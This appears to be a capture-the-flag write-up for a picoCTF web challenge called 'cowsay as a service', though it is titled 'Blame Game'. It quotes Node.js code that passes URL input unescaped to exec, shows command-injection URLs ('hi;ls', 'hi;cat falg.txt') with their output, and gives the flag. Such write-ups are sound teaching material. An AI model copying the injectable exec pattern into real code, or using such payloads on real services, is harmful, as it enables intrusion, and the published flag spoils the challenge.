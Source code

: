 # Blame Game
Write-Up by **Mttttt** *2024-06-25*

## Task description

Now presenting [cowsay as a service](https://caas.mars.picoctf.net)

[index.js](https://artifacts.picoctf.net/picoMini+by+redpwn/Web+Exploitation/caas/index.js)


- *Category*: **Web Exploitation**
- *Difficulty*: **Easy**

## Solution 

**index.js**:
```js
const express = require('express');  
const app = express();  
const { exec } = require('child_process');  
  
app.use(express.static('public'));  
  
app.get('/cowsay/:message', (req, res) => {  
 exec(`/usr/games/cowsay ${req.params.message}`, {timeout: 5000}, (error, stdout) => {  
   if (error) return res.status(500).end();  
   res.type('txt').send(stdout).end();  
 });  
});  
  
app.listen(3000, () => {  
 console.log('listening');  
});
```

This web app is just running **cowsay** command with text that specified in url

Backend looks like this:
```bash
cowsay hi
```

Lets try to manipulate this command and run another:
```bash
cowsay hi;ls
```

`https://caas.mars.picoctf.net/cowsay/hi;ls`
```
 ____
< hi >
 ----
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
Dockerfile
falg.txt
index.js
node_modules
package.json
public
yarn.lock
```

And now use command to see `falg.txt` content:

`https://caas.mars.picoctf.net/cowsay/hi;cat%20falg.txt`

### Answer

`picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}`
